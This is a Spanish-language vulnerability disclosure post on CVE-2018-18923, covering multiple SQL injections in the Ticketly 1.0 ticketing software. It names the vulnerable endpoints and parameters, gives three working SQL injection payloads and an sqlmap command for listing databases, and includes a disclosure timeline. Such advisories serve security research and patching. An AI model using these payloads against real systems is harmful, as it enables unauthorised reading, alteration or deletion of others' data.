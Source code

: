 +++
date = "2018-11-05"
title = "CVE-2018-18923 Ticketly 1.0 - Múltiples SQL Injections"
author = "Javier Olmedo"
toc = false
+++

En la [entrada anterior](https://hackpuntes.com/cve-2018-18922-ticketly-escalacion-de-privilegios-crear-cuenta-administrador/), hemos visto una vulnerabilidad de [Escalación de Privilegios](https://www.owasp.org/index.php/Testing_for_Privilege_escalation_\(OTG-AUTHZ-003\)) en [Ticketly 1.0](https://abisoftgt.net/software/6/sistema-de-tickets-y-soporte-con-php-y-mysql), en esta entrada, vamos a ver otras vulnerabilidades que he encontrado en este software, en concreto, múltiples SQL Injections, estas vulnerabilidades han sido asociadas al [CVE-2018-18923](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-18923).

## Ticketly - CVE-2018-18923

### Ticketly 1.0 - Multiple SQL Injections

[![/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_001.png](/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_001.png)](/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_001.png)

Ticketly 1.0, es un software de ticketing desarrollado por AbiSoft para ofrecer soporte a los usuarios sobre incidencias en los sistemas, está basado en PHP y MySQL.

- 📅 Vulnerabilidad descubierta por [Javier Olmedo](https://twitter.com/JJavierOlmedo) el **24/07/2018**
- 💣 Publicada el **05/11/2018**
- 🐛 [CVE-2018-18923](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18923)
- 🔗 Link del software [Ticketly](https://abisoftgt.net/software/6/sistema-de-tickets-y-soporte-con-php-y-mysql)
- 🐞 Versión vulnerable = **1.0**

## Vector de ataque / Criticidad de la explotación

### CRITICIDAD - 🟣 CRÍTICA 🟣

A través de las vulnerabilidades [SQL Injection](https://www.owasp.org/index.php/SQL_Injection), un usuario malintencionado podría **leer, modificar o borrar** información de la base de datos que utiliza la aplicación, **lanzar comandos al sistema operativo o** causar una [denegación de servicio](https://es.wikipedia.org/wiki/Ataque_de_denegaci%C3%B3n_de_servicio) con el objetivo de **obtener información confidencial, escalar privilegios o dejar inoperativa la aplicación.**

## Parámetros / Recursos vulnerables

En los siguiente recursos se han encontrado parámetros vulnerables a ataques SQL Injection a través de peticiones POST, estas peticiones permiten las condiciones `WHERE`, `HAVING`, `ORDER BY` y `GROUP BY`, lo que permite que sean **fácilmente explotables** y **recuperar grandes cantidades de información** de la base de datos con una sola consulta.

`/action/addproject.php`

Parámetros `description`, `name`, `category_id` y `description`

`/action/addticket.php`

Parámetros `king_id`, `priority_id`, `project_id`, `status_id` y `title`

`/reports.php`

Parámetros `kind_id` y `status_id`

**💉 Payload 1 (boolean-based blind)**

```txt
name=Test» RLIKE (SELECT (CASE WHEN (4632=4632) THEN 0x54657374 ELSE 0x28 END)) AND «lrmZ»=»lrmZ&description=Test
```

**💉 Payload 2 (error-based)**

```txt
name=Test» AND EXTRACTVALUE(9139,CONCAT(0x5c,0x7176766a71,(SELECT (ELT(9139=9139,1))),0x7178717a71)) AND «SZJL»=»SZJL&description=Test
```

**💉 Payload 3 (AND/OR time-based blind)**

```txt
name=Test» RLIKE SLEEP(5) AND «WkTS»=»WkTS&description=Test
```

📷 **Captura de pantalla de SQLmap lanzando el comando**

```bash
sqlmap -r poc.req -p name --dbs
```

[![/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_002.png](/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_002.png)](/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_002.png)

## Prueba de concepto (PoC)

**1.**  Si añadimos el caracter `'` `(%22)` en el parámetro `name` obtenemos un **error en la aplicación**

**1.1 Petición**

[![/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_003.png](/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_003.png)](/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_003.png)

**1.2 Respuesta**

[![/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_004.png](/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_004.png)](/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_004.png)

**2.** En cambio, al añadir dos `'` `(%22%22)`, obtenemos un **código 200 OK**

**2.1 Petición**

[![/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_005.png](/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_005.png)](/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_005.png)

**2.2 Respuesta**

[![/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_006.png](/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_006.png)](/images/cve-2018-18923-ticketly-multiples-sql-injections/cve-2018-18923-ticketly-multiples-sql-injections_006.png)

## Timeline

- **24/07/2018** Descubrimiento de la vulnerabilidad
- **24/07/2018** Contacto con el desarrollador
- **24/07/2018** El desarrollador marca la vulnerabiliad como pendiente de parcheo
- **02/11/2018** Solicito CVE
- **04/11/2018** Asignación de CVE-2018-18923 por MITRE
- **05/11/2018** Hago pública la vulnerabilidad

## Referencias

- CVE-MITRE - [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18923](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18923)

Un saludo a todos!! 👋